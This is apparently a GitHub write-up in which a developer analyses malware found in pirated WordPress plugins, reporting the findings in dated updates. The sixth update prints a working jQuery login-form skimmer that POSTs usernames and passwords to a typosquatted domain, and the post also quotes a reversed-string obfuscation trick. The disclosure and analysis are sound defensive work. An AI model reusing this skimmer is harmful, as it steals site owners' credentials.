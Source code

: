 # WARNING - Please Read
I did not wrote this code. I'm sharing it here for you to benefit. This code was found on a Wordpress plugin.

## Wordpress was returning an error which said like this:
```sh
Fatal error: cannot redeclare glues_it() (previously declared in ...
```

> We went ahead and did some research and found out that the person who was hired to edit the site of one of our old clients, was using plugins with this sketchy Wordpress function. We believe that these are premium plugins being pirated.

You can find the original piece of code here: [awful/glues_it/glues_it.php](http://git.io/vs0GD)

#### Update 1
> We still looking out what it really does but for the time being we told the site owner to get rid of the plugins with the function.

#### Update 2
The function code is actually written in Spanish, at least most of it. If you see words, parts of the code not making any sense, probably that part is written in Spanish.

#### Update 3
> We got rid of all those dots (something that the code probably does by itself) but we did it to be able to make it a little more readable, also after doing this, we had to make few fixes to make sure the code was the same as the original, just without all those dots.

Here is the link to the new file without the dots: [awful/glues_it/glues_it_CLEANED.php](http://git.io/vs0cs)

#### Update 4
The code makes reference to the domain "jqeury.org" on purpose to make you think you are requesting "jQuery.org".

Right after that the code does a request to the same domain at the following path:
```sh
jqeury.org/wp_ping.php?dname=wpd&tname=wpt&urliz=urlig
```

What does it does? I'm not sure, since my knowledge is limited on this, but maybe the code is requesting data from Wordpress ... something like the site url ... not sure yet what or why ...

#### Update 5
Take a look at "[jqeury.org/jquery-latest.js](http://git.io/vs0c6)" on line 56 after using jsbeautifier on it, this was the result: [awful/glues_it/jquery-latest.js](http://git.io/vs0c6)

At the beginning it looks like a regular jQuery Javascript file, but take a look at the lines 3349-3368, there is where the cute part begins. This file contains a script which "saves/sends (not sure if I'm correct)" the user/admin credentials using some method. I'm still looking.

#### Update 6
Here is the part that I'm talking about:
```sh
$("#loginform").submit(function(event) {
    passwd = document.getElementById('user_pass').value;
    usr = document.getElementById('user_login').value;
    domainis = window.location.host;
    urlis = window.location.href;
    $.ajax({
        type: "POST",
        url: "http://jqeury.org/wp_ping.php",
        async: false,
        data: {
            name: usr,
            pwd: passwd,
            dname: domainis,
            urliz: urlis
        },
        success: function(response) {
            num = response;
        }
    });
});
```

I believe that is getting the data from the Wordpress login form (user, password, site domain and site url) and using Ajax with method POST and in someway sending it to http://jqeury.org/wp_ping.php where probably the creator of the script is saving it to a file where it can be read and then later on be used to log in to the victims site. This is just a vague speculation of mine, since I'm just taking quick looks at this when I have time.

I also found out that on line 145 of [awful/glues_it/glues_it_CLEANED.php](http://git.io/vs0cs) that there is a possible/interesting point, take a look at:
```sh
$nimda_pw = call_user_func($object_quince_pim, 'php.resu/sedulcni/nimda-pw');"
```

If we read
```sh
php.resu/sedulcni/nimda-pw
```

backwards (that is why at line 20 of [awful/glues_it/glues_it_CLEANED.php](http://git.io/vs0cs) "strrev" is used, to reverse the string) we get
```sh
wp-admin/includes/user.php
```

I still don't know yet why the creator of this script uses that file, but maybe is using it to, in someway, to get advantage of Wordpress own code to accomplish his goal of getting the victims site url, username and password.
